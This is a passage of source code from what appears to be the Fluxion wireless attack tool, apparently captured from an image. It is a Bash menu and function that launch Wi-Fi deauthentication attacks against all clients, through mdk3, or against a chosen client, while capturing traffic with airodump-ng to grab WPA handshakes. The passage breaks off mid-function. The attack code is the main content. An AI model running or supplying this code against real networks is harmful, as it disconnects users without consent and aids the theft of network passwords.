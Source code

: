 




############################################# < HANDSHAKE > ############################################

# Type of deauthentication to be performed
function askclientsel {

        if [ "$FLUX_AUTO" = "1" ];then
                deauth all
        else
                conditional_clear

                while true; do
                        top

                        echo -e ""$red"["$yellow"2"$red"]"$transparent" $header_deauthMENU"
                        echo "                                       "
                        echo -e "      "$red"["$yellow"1"$red"]"$grey" Deauth all"$transparent
                        echo -e "      "$red"["$yellow"2"$red"]"$transparent" Deauth all [mdk3]"
                        echo -e "      "$red"["$yellow"3"$red"]"$transparent" Deauth target "
                        echo -e "      "$red"["$yellow"4"$red"]"$transparent" Rescan networks "
                        echo -e "      "$red"["$yellow"5"$red"]"$transparent" Exit"
                        echo "                                       "
                        echo -n -e ""$red"["$blue"deltaxflux"$yellow"@"$white"fluxion"$red"]-["$yellow"~"$red"]"$transparent""
                        read yn
                        echo ""
                        case $yn in
                                1 ) deauth all; break ;;
                                2 ) deauth mdk3; break ;;
                                3 ) deauth esp; break ;;
                                4 ) killall airodump-ng &>$flux_output_device; ghost; break;;
                                5 ) exitmode; break ;;
                                * ) echo "
        $general_case_error"; conditional_clear ;;
                        esac
                done
        fi
}

#
function deauth {

        conditional_clear

        iwconfig $WIFI_MONITOR channel $Host_CHAN

        case $1 in
                all )
                        DEAUTH=deauthall
                        capture & $DEAUTH
                        CSVDB=$Host_MAC-01.csv
                ;;
                mdk3 )
                        DEAUTH=deauthmdk3
                        capture & $DEAUTH &
                        CSVDB=$Host_MAC-01.csv
                ;;
                esp )
                        DEAUTH=deauthesp
                        HOST=`cat $DUMP_PATH/$CSVDB | grep -a $Host_MAC | awk '{ print $1 }'| grep -a -v 00:00:00:00| grep -v $Host_MAC`
                        LINEAS_CLIENTES=`echo "$HOST" | wc -m | awk '{print $1}'`
